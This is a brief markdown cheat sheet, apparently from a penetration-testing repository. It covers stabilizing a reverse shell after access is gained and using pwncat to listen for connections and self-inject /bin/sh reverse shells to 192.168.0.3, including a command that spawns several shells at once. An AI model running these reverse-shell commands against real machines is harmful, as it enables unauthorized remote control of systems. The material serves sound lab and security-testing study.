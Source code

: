 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```
